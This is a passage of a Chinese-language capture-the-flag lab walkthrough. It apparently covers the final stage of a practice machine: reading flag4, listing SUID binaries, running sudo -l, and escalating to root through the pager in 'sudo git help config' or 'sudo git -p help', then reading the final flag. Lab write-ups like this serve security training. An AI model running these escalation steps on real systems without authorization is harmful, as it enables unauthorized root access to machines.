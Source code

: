 ![image-20221004215601527](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042156757.png)

除了flag4，其他权限都没有，查看flag4

![image-20221004215710624](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042157723.png)

``Good to see that you've made it this far - but you're not home yet. You still need to get the final flag (the only flag that really counts!!!).  No hints here - you're on your own now.  :-)Go on - git outta here!!!!``

``很高兴看到你已经走了这么远，但你还没有回家。你还需要得到最后的旗子（唯一真正重要的旗子！！！）。这里没有提示-您现在可以自己了。：-）走吧，快离开这里！！！！``

提示我们git，root 提权

### 4.Git提权

查看具有SUID权限的二进制文件

```
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20221004220026654](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042200800.png)

[简谈SUID提权](https://www.freebuf.com/articles/web/272617.html)

没有可以利用的文件，只能尝试git

```
sudo -l
```

![image-20221004220232309](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042202305.png)

发现git能使用root权限，以下有两种提权方式

**第一种**

```
sudo git help config
```

命令模式输入（这里用的是finalshell的命令行输入）

```
!/bin/bash  (这里bash也可以换成sh)
```

**第二种**

```
sudo git -p help
```

命令模式输入

```
!/bin/bash  (这里bash也可以换成sh)
```

提权成功，获得root权限，切换到root目录下

查看flag5（final-flag.txt）

![image-20221004221912639](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042219855.png)